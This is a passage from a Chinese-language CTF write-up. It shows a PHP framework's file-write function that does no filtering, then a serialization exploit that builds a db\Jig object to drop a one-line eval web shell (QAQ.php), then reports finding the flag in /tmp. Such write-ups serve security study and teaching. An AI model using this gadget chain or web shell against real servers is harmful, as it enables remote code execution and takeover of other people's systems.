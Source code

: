 ```php
    function write($file,$data,$append=FALSE) {
        return file_put_contents($file,$data,$this->hive['LOCK']|($append?FILE_APPEND:0));
    }
```

可以看到整个流程对文件名，文件内容没有任何过滤，顶多包装了一下内容，对php是没有影响的.

经过调试验证构造出exp

```php
<?php
namespace db {
    class Jig
    {
        protected $dir = "xxx";
        protected $data = ["QAQ.php" => ["QWQ" => '<?php eval($_POST[0]); ?>']];
        protected $lazy = 1;
    };
    $a = new Jig();
    echo urlencode(serialize($a));
}
?>
```

拿生成的payload打一下

![30](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/78c711256426dfe7e9c28931a8e4c8e4.png)

成功写入shell，然后在`/tmp`下找到flag，因为可写目录只有web根目录和`/tmp`

![31](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/73b6f4f2b3f5f2fe08b0d6fd6a0628a3.png)
